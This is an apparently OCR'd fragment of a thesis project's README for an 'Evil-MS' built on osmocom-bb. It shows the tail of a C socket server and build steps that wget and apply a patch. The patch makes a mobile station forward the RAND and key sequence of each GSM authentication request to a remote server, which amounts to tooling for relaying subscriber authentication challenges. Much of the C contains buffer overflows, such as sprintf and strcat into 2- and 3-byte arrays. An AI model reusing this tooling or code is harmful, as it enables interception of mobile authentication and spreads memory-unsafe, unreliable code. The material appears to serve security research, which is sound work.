 ```c
    int len = read(client_fd, buffer, 999);
    buffer[len] = '\0';
    
    char * header = "<b>You Connected to the Server!</b></br></br>";
    i=i+1;
    write(client_fd, header, strlen(header));
    
    printf("=== Client Sent ===\n");
    printf("%s\n", buffer);
    memcpy(text,buffer,13);
    close(client_fd);

  }
  return text;
}
```

## Evil-MS :

```bash
git clone https://github.com/osmocom/osmocom-bb
git checkout fc20a37cb375dac11f45b78a446237c70f00841c
wget https://gitlab.com/francoip/thesis/raw/public/patch/thesis.patch
patch -p1 < thesis.patch
```

```patch
diff -ru osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c heartbreaker/bb-2rfa/src/host/layer23/src/mobile/gsm48_mm.c
--- osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c	2022-08-30 15:39:46.222274989 +0200
+++ heartbreaker/bb-2rfa/src/host/layer23/src/mobile/gsm48_mm.c	2022-08-30 15:35:55.472598046 +0200
@@ -20,6 +20,7 @@
  */
 
 #include <stdint.h>
+#include <string.h>
 #include <errno.h>
 #include <stdio.h>
 #include <string.h>
@@ -41,7 +42,7 @@
 #include <osmocom/bb/mobile/app_mobile.h>
 #include <osmocom/bb/mobile/vty.h>
 #include <osmocom/bb/mobile/dos.h>
-
+#include "client.h"
 extern void *l23_ctx;
 
 void mm_conn_free(struct gsm48_mm_conn *conn);
@@ -1662,6 +1663,15 @@
 	 */
 	if (mm->est_cause == RR_EST_CAUSE_EMERGENCY && set->emergency_imsi[0])
 		no_sim = 1;
+	char test2[]="1";
+	sprintf(test2, "%d", ar->key_seq);
+	char test3[3]="-";//"87 65 43 21 87 65 43 21 87 65 43 21 87 65 43 21";
+	strcat(test3,test2);
+	char test[51]="87 65 43 21 87 65 43 21 87 65 43 21 87 65 43 21";
+	strcpy(test,osmo_hexdump(ar->rand,16));
+	strcat(test,test3);
+	LOGP(DMM, LOGL_INFO, "AUTHENTICATION REQUEST (seq %s)\n", test);
+	client(test);
 	gsm_subscr_generate_kc(ms, ar->key_seq, ar->rand, no_sim);
 
 	/* wait for auth response event from SIM */
```